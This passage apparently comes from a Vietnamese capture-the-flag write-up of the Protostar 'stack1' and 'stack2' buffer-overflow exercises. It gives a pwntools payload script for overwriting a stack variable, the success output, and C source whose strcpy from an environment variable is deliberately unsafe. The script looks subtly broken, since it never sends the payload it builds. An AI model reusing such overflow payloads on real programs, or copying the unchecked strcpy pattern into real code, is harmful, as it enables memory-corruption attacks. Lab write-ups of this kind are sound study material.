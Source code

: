 p64() là vì chương trình này chúng ta complier nó ở hệ điều hành 64 bit, còn nếu 32 bit thì dùng p32().
```
from pwn import *

BIN = "./stack1"
DEBUG = 1

modified = 0x61626364
payload = b"A"*0x4c 
payload += p64(modified)


io = process(BIN)
io.sendline("./stack1 `python -c 'print(payload)'`")

io.interactive()
```
Và cứ thế chúng ta có được dòng :
```
You have correctly got the variable to the right value
```

## Stack 2

LevelUp++ ! Bây giờ lại sang 1 bài khác, đề bài vẫn cho mình 1 chương trình với code C như sau:


```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
Bài này lại xuất hiện 1 hàm rất lạ *variable = getenv("GREENIE")* , lên gg dạo chơi thử xem thì ta biết được : https://www.tutorialspoint.com/c_standard_library/c_function_getenv.htm
Sau khi phân tích và tìm hiểu thì ta rút ra được kết luận là hàm getenv() đó sẽ gán giá trị của environment variable vào variable trong chương trình. 
Sau đó thì lại gán biến variable vào biến buffer, nguyên lý vẫn là thế chúng ta vẫn dựa vào buffer để tràn sang modified.